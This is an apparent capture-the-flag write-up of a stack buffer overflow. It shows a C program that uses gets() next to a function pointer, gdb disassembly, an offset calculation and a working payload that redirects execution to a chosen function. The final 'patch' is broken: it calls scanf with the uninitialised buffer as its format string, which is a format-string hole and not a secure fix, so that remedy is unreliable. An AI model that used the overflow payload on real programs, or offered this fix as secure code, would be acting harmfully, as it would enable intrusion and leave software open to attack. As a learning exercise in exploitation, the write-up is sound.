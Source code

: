 Let's look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

	printf("Level Cleared\n");
}

int main()
{
	char buf1[55];
	char buf0[300];
	volatile int (*var1)();
	var1 = 0;

	gets(buf0);

	if (var1)
	{
		printf("Wait, you aren't supposed to be here\n");
		var1();
	}

	else
	{
		printf("O look you didn't solve this. How very predictable\n");
	}
}
```

So we can see that our objective lies in the nothing_interesting() function. However it doesn't call it anywhere in the main function.
However it does call a function, which was declared as a volatile int. In addition to that it has a buffer overflow vulnerabillity where it uses gets() to read into buf0.
So we should be able to exploit this program by overflowing buf0 to rewrite var1 with the address of the nothing_interesting() function.
This way, the if then statement will evaluate as true and when the var1() call runs, it will run the nothing_interesting() function. Also
buf1 doesn't serve any purpose as far as I can tell. It's just there to troll with you. So let's solve this with gdb.

First fire up gdb
```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ gdb ./b2 
```

One wall of text later...

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048454 <+0>:	lea    ecx,[esp+0x4]
   0x08048458 <+4>:	and    esp,0xfffffff0
   0x0804845b <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804845e <+10>:	push   ebp
   0x0804845f <+11>:	mov    ebp,esp
   0x08048461 <+13>:	push   ecx
   0x08048462 <+14>:	sub    esp,0x174
   0x08048468 <+20>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804846f <+27>:	sub    esp,0xc
   0x08048472 <+30>:	lea    eax,[ebp-0x16f]
   0x08048478 <+36>:	push   eax
   0x08048479 <+37>:	call   0x8048300 <gets@plt>
   0x0804847e <+42>:	add    esp,0x10
   0x08048481 <+45>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08048485 <+49>:	je     0x804849e <main+74>
   0x08048487 <+51>:	sub    esp,0xc
   0x0804848a <+54>:	push   0x8048550
   0x0804848f <+59>:	call   0x8048310 <puts@plt>
   0x08048494 <+64>:	add    esp,0x10
   0x08048497 <+67>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0804849a <+70>:	call   eax
   0x0804849c <+72>:	jmp    0x80484ae <main+90>
---Type <return> to continue, or q <return> to quit---
   0x0804849e <+74>:	sub    esp,0xc
   0x080484a1 <+77>:	push   0x8048578
   0x080484a6 <+82>:	call   0x8048310 <puts@plt>
   0x080484ab <+87>:	add    esp,0x10
   0x080484ae <+90>:	mov    eax,0x0
   0x080484b3 <+95>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x080484b6 <+98>:	leave  
   0x080484b7 <+99>:	lea    esp,[ecx-0x4]
   0x080484ba <+102>:	ret    
End of assembler dump.
```

So right now, we are looking at the assembly code. First thing we should figure out is how much data we will need to input in order to overflow the buffer and write over the
var1 volatile int. Let's see if we can find out where in memeory the buffer starts.

```
   0x08048472 <+30>:	lea    eax,[ebp-0x16f]
   0x08048478 <+36>:	push   eax
   0x08048479 <+37>:	call   0x8048300 <gets@plt>
```

Looking here we can see the assembly call for the gets() function. We know that the gets() function uses buf0 (the buffer we are after) as it's argument.
Thing is we see the lea instruction with a stack position. The lea address prepares an area of memory (like a buffer) to be pushed onto the stack and used by a function.
Since function paramters are pushed onto the stack right before the function is called, it is probably the buffer we are after which is stored at ebp-0x16f.

Next we need to see where the int is stored. We know that it is used in an if then statement, which assembly does that through the use of a cmp function (cmp function just compares two things by subtracting one from another).

```
   0x08048481 <+45>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x08048485 <+49>:	je     0x804849e <main+74>
```

So we can see that a value on the stack is being compared to 0 (which is what ints are compared to in an if then statment like the one were dealing with).
So we can be pretty sure that the stack location is ebp-0xc.

So we know the two stack loactions. let's caluclate the differece using python.

```
guyinatuxedo@tux:~$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x16f - 0xc
355
>>> exit()
```

So as you can see, the difference is 355 bytes. So we should be able to write 356 characters and overflow the variable. Let's try it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "1"*356'` | ./b2
Wait, you aren't supposed to be here
Segmentation fault (core dumped)
```

So we have determined the buffer. Next thing is we need the address of the nothing_interesting() function. We can get it using objdump.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ objdump -D b2 | grep nothing_interesting
0804843b <nothing_interesting>:
```

So we have the address of the nothing_interesting() function which is 0x0804843b. So let's consrtuct the payload. Our payload will consist of two entities.

```
Filler = 355 characters

Address = 0x0804843b (in little endian)
```

So let's try our exploit...

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "0"*355 + "\x3b\x84\x04\x08"'` | ./b2
Wait, you aren't supposed to be here
Level Cleared
```

And just like that, we pwned the binary. 


Now let's patch the program. 

````
#include <stdio.h>
#include <stdlib.h>

int nothing_interesting()
{

	printf("Level Cleared\n");
}

int main()
{
//	char buf1[55];
	char buf0[300];
	volatile int (*var1)();
	var1 = 0;

	scanf(buf0, sizeof(buf0), stdin);

	if (var1)
	{
		printf("Wait, you aren't supposed to be here\n");
		var1();
	}

	else
	{
		printf("O look you didn't solve this. How very predictable\n");
	}
}
```

So as you can see we replaced the gets() function with a secure implementation of the scanf() function. In addition to that we commented out the unused buf1 buffer.
Now let's see if we actually patched it.

```
guyinatuxedo@tux:/Hackery/cr@ck_th3_c0de/buf_ovf/2$ echo `python -c 'print "0"*355 + "\x3b\x84\x04\x08"'` | ./b2_secure
O look you didn't solve this. How very predictable
```

And just like that, we patched the binary
